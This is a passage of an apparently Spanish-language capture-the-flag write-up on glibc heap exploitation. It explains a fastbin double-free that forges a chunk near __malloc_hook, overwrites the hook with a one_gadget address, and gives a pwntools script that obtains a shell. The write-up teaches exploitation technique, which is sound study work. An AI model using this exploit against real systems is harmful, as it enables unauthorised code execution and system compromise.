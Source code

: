 Es habitual encontrarse punteros en esas zonas de memoria y, si son a la libc o al stack, suelen empezar por 0x7f. Buscaremos uno de ellos para usarlo como byte menos significativo del campo size, y apuntar allí el fd del chunk que vamos a modificar.

#### Double free

Una de las técnicas para modificar un chunk que está en fastbin es liberarlo dos veces. De esta forma, dos `calloc` sucesivos apuntarán a la misma zona de memoria. La única precaución que debemos tener es no liberar el mismo bloque dos veces seguidas, sino intercalar otro en medio.

Una vez hecho, reservamos un nuevo chunk, que rellenaremos con el puntero fd que nos interese, es decir, que apunte a la zona de memoria donde reside el siguiente chunk de la lista. Como hemos encontrado un byte 0x7f suelto poco antes del `__malloc_hook`, ése será el valor.

Este chunk recien creado, por haber hecho double-free, habrá sobrescrito el contenido del mismo chunk que está aún en el fastbin. Después de reservar ese chunk, la siguiente asignación de ese tamaño será en la dirección de memoria que le indicamos. Es en ese momento cuando sobrescribiremos el `__malloc_hook`. 

Una llamada posterior a `calloc` provocará que se ejecute ese código. Como esa función no recibe ningún parámetro que podamos modificar, al contrario que con `__free_hook`, haremos uso de un one_gadget. Son direcciones de memoria de la libc que al saltar a ellas ejecutan `/bin/sh` si se cumple una serie de condiciones. Si hemos elegido el gadget correcto, la siguiente asignación nos proporcionará shell.

```python
add(0, 0x68, "0")
add(1, 0x68, "1")

delete(0)
delete(1)
delete(0) # Double free

add(0, 0x68, pack(libc.sym['__malloc_hook'] - 0x23))
add(0, 0x68, "")
add(0, 0x68, "")
# El siguiente chunk estará 0x13 bytes antes de __malloc_hook
add(0, 0x68, '\x00' * 0x13 + pack(libc.address + 0x106ef8))

# Finalmente creamos un nuevo chunk
io.sendline("1") # create
io.sendline("0") # index
io.sendline("1") # size

io.interactive()
```

## Obteniendo shell, the hard way

Cuando hice el reto, por alguna razón que aún no comprendo, no me funcionó ese one_gadget, siempre provocaba un segfault. Después de mucha desesperación, decidí hacerlo a lo bruto.

El problema para sobrescribir `__free_hook` era que no había ningún byte 0x7f utilizable relativamente cerca de su posición. El primero que encontré se hallaba a casi 4000 bytes de distancia.
